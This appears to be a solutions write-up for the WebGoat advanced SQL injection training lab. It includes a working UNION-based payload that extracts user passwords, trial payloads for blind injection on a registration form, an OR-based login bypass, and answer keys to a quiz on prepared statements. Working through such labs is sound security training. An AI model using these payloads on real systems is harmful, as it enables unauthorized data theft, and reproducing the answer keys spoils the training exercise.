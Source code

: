 # SQL Injection (Advanced)

## 3 - Try It! Pulling Data from Other Table

'user_data' table
```
CREATE TABLE user_data (userid int not null,
                        first_name varchar(20),
                        last_name varchar(20),
                        cc_number varchar(30),
                        cc_type varchar(10),
                        cookie varchar(20),
                        login_count int);
```

'user_system_data'
```
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

Question
6.a) Retrieve all data from the table
6.b) When you have figured it out…​. What is Dave’s password?

Answer:
6. a)Name =
```
' OR '1' = '1' UNION select userid, user_name as first_name, password as last_name, cookie, '1' as cc_number, '2' as cc_type, 3 as login_count from user_system_data where '1' = '1
```

6. b) Password = `passW0rD`

## 5 - Can You Login as Tom? // TODO

Steps:
1. In Register page, use this value.
```
Username=tom
Email Address=tom@webgoat.com
Password=password
Confirm Password=password
```

2. The result is "User tom already exists please try to register with a different username."

3. Assuming that username is injectable.
```
Username = ' UNION SELECT table_name FROM all_tables; --
```

Username = tom' AND '1'='2
Result = User tom' AND '1'='2 created, please proceed to the login page.

Username = tom' AND '1'='1
Result = User {0} already exists please try to register with a different username.

Username = tom' AND '1'='1' UNION SELECT table_name FROM all_tables; --
Result = Something went wrong

-- ORACLE database?
Username = tom' AND '1'='1' UNION SELECT table_name FROM all_tables where '1' = '1
Result = Something went wrong

-- MYSQL database?
Username = tom' AND '1'='1' UNION SELECT table_name FROM information_schema.tables; --
Result = User {0} already exists please try to register with a different username.

Username = ' AND '1'='1' UNION SELECT table_name FROM information_schema.tables; --
Result = User ' AND '1'='1' UNION SELECT table_name FROM information_schema.tables; -- already exists please try to register with a different username.

Username = ' AND '


Login Page
Username=tom
Password=' OR '1' = '1

' AND 1=2 UNION SELECT owner, table_name, 1 FROM all_tables; --

Register Page
Username=tom
Email Address=tom@webgoat.com
Password=password
Confirm Password=password


## 6 - Quiz
1. What is the difference between a prepared statement and a statement?
Answer:Solution 4: A statement has got values instead of a prepared statement

2. Which one of the following characters is a placeholder for variables?
Answer: Solution 3: ?

3. How can prepared statements be faster than statements?
Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.

4. How can a prepared statement prevent SQL-Injection?
Answer: Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.

5. What happens if a person with malicious intent writes into a register form :Robert); DROP TABLE Students;-- that has a prepared statement?
Answer: Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.

